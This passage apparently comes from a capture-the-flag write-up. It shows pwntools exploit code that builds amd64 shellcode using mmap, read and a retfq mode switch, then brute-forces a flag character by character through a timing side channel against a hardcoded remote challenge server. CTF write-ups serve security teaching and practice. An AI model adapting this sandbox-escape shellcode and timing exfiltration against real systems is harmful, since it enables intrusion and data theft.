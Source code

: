```python
    sub byte ptr[rax+0x41],cl
    push rdi
    push rdi
    push 0x23
    push 0x40404040
    pop rax
    push rax
    '''
    shellcode += shellcode_mmap
    shellcode += append
    shellcode += shellcode_read
    shellcode += append
    shellcode += shellcode_retfq
    shellcode += append
    shellcode = asm(shellcode,arch = 'amd64',os = 'linux') 
    p.sendline(shellcode)
    p.sendline(shellcode_open + 0x29*b'\x90' + shellcode_flag)
index = 0
flag = []
while True:
    for ch in range(0x20, 127):
        p = remote('39.105.137.118', 50050)
        #p=process('./shellcode')
        pwn(p, index, ch)
        start = time.time()
        try:
            p.recv(timeout=2)
        except:
            pass
        end = time.time()
        p.close()
        if end - start > 1.5:
            flag.append(ch)
            print("".join([chr(i) for i in flag]))
            break
    else:
        print("".join([chr(i) for i in flag]))
        break
    index = index + 1
    print(flag)


```

flag值：
![image (8)](2021qwb/image%20(8).png)
